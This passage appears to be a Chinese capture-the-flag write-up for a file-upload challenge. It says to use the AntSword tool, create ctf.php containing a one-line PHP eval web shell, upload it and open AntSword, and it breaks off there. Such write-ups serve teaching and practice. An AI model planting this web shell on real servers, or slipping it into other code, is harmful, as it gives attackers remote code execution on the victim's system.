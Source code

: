 ![](images/Snipaste_2025-02-08_14-48-26.png)

### 解题

使用工具：蚁剑

创建一个名为ctf.php的文件，写入

```php
<?php @eval($_POST["ctf"]);?>
```

将文件上传

![](images/上传.png)

打开蚁剑
